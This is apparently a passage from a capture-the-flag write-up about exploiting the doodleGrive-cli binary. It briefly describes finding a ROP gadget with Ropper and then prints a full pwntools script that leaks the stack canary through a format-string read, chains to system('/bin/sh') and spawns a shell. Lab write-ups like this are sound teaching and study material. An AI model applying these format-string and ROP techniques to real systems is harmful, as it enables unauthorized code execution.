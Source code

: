 ### Ropper - Gadget

Ropper was also used to find a `pop rdi; ret` gadget which will be used for the exploit chain to system.  If ASLR was enabled this would not be possible.

![6875b6683576ce6461c63d47a39f2026.png](/assets/img/6875b6683576ce6461c63d47a39f2026.png)

### Local Exploit

Below is a copy of the full script used to exploit the binary locally on my own machine.

```python
from pwn import *

e = ELF("./doodleGrive-cli")
io = e.process(level="error")

system = p64(e.sym.system)
binsh = p64(0x00497cd5)
pop_rdi_ret = p64(0x401912)
ret = p64(0x401941)

log.info_once(f"Setting /bin/sh string: {binsh.hex()}")
log.info_once(f"Setting system address: {system.hex()}")
log.info_once(f"Setting gadget address: {pop_rdi_ret.hex()}")
log.info_once(f"Setting return address: {ret.hex()}")

io.recvline()
io.recvline()
io.sendline(b"%15$lx") # 15 index discovered using python script
returnedoutput = io.recvline()[19:-2]

canary = int(returnedoutput, 16)
log.info_once(f"Setting canary address: {canary}")

payload = b"A"*56       # Offset to enter canary.
payload += p64(canary)  # Leak address of canary via format string attack
payload += b"C"*8       # Filler
payload += ret          # Return instruction to allign stack
payload += pop_rdi_ret  # Gadget to begin chain to system
payload += binsh
payload += system

io.sendline(payload)
io.interactive()
```
